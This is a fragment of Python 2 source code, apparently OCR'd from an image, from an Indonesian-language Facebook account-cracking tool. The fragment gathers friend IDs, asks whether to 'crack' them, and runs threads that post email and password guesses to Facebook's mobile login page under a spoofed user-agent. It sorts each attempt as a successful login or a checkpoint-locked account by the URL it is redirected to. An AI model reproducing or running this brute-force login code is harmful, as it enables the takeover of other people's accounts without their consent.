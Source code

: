 			next = br.find_link(url_regex= 'friends_center_main').url

		except:

			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))

			break

	simpan()

	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])

	if i.upper() == 'Y':

		return crack(id_bteman)

	else:

		return menu()

class mt(threading.Thread):

    def __init__(self,i,p):

        threading.Thread.__init__(self)

        self.id = i

        self.a = 3

        self.p = p

    def update(self):

        return self.a,self.id

    def run(self):

        try:

             data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))

        except KeyboardInterrupt:

            os.sys.exit()

        except:

            self.a = 8

            os.sys.exit()

        if 'm_sess' in data.url or 'save-device' in data.url:

            self.a = 1

        elif 'checkpoint' in data.url:

            self.a = 2

        else:

            self.a = 0
